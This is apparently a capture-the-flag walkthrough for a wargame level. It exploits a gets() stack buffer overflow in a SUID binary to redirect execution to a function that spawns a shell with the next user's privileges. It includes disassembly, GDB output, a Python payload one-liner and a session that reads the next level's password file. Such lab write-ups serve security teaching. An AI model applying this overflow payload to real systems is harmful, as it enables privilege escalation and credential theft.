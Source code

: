 # Level0
Level1 introduce return-to-libc attacks.

# Tools
GDB

# Walkthrough


The home of `level1` contains a SUID bit binary file, owned by `level2`:
```
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
```

Upon checking the `level1` binary with GDB and disassembling main, we see the code in the `main.asm` file. 

This code calls a really dangerous function, `gets`. `gets` doesn't perform any checks before writing to its buffer, thus someone that would write a long string inside of `gets` would pretty easily buffer overflow the stack, and could leverage that to execute arbitrary code.

Let's dissect the assembly code a little more to better understand the programme:
```x86
   0x08048480 <+0>:	push   ebp ; First two lines are the prologue, prepare the
   0x08048481 <+1>:	mov    ebp,esp ; stack frame for the main function to be executed
   0x08048483 <+3>:	and    esp,0xfffffff0 ; 
   0x08048486 <+6>:	sub    esp,0x50 ; Allows 80 bytes for the buffer
   0x08048489 <+9>:	lea    eax,[esp+0x10] ; Prepare the stack to receive data
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax ; Prepare the stack to receive data
   0x08048490 <+16>:	call   0x8048340 <gets@plt> ; Calls gets()
   0x08048495 <+21>:	leave ; Setup to return control to the caller
   0x08048496 <+22>:	ret ; Setup to return control to the caller
```

Okay, apart from the `gets` call there is nothing too fancy, but maybe the programme calls other functions?
Using [dogbolt](https://dogbolt.org/), we can reverse engineer the binary.
We see that the programme also contains a function `run()`:
```c
int run()
{
  fwrite("Good... Wait what?\n", 1u, 0x13u, stdout);
  return system("/bin/sh");
}
```
As we can see, the `run()` commands prints a message and spawns a shell, with the privileges of level2 (file owner and SUID bit).

Using GDB, we can get the address of that function:
```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```
`run` is located at the address **0x08048444**. We want to setup our programme so that when `gets()` returns and pops the return address of the caller, instead of getting the `leave` instruction from the `main`, it calls the `run` function.

To do that, we will make use of the stack buffer overflow. We know that the programme allocates 80 bytes for the buffer of `gets()`.

We break on `main` and `gets`, and show the content of the stack:
```
(gdb) break main
Breakpoint 1 at 0x8048483
(gdb) break gets
Breakpoint 2 at 0x8048340
(gdb) run
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048483 in main ()
(gdb) c
Continuing.

Breakpoint 2, 0xb7e91e40 in gets () from /lib/i386-linux-gnu/libc.so.6
(gdb) x/20x $esp
0xbffff6ac:	0x08048495	0xbffff6c0	0x0000002f	0xbffff70c
0xbffff6bc:	0xb7fd0ff4	0x080484a0	0x0804978c	0x00000001
0xbffff6cc:	0x08048321	0xb7fd13e4	0x00000016	0x0804978c
0xbffff6dc:	0x080484c1	0xffffffff	0xb7e5edc6	0xb7fd0ff4
0xbffff6ec:	0xb7e5ee55	0xb7fed280	0x00000000	0x080484a9
``` 
The first double word of data is the address of the return value of the main function. Thus, we know that, just before filling out the buffer, we need to write out the address of the `run` function to call it.

We write 76 A and then the address of the `run` function in reverse order becuase of the little endian of the system. 
```bash
python -c 'print("A"*76 + "\x44\x84\x04\x08")' > attack.txt; ./level1 < attack.txt; rm -rf attack.txt
```

That segfaults, because Bash still reads on STDIN which is closed. Thus, we need to maintain STDIN opened after we inputed our payload:

```bash
python -c 'print("A"*76 + "\x44\x84\x04\x08")' > attack.txt; cat attack.txt - | ./level1; rm -rf attack.txt
```

```bash
level1@RainFall:~$ python -c 'print("A"*76 + "\x44\x84\x04\x08")' > attack.txt; cat attack.txt - | ./level1; rm -rf attack.txt
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```


# Sources
[Tutorial on GDB and Stack Buffer Overflow](https://eric-lo.gitbook.io/stack-smashing-attack/asm)
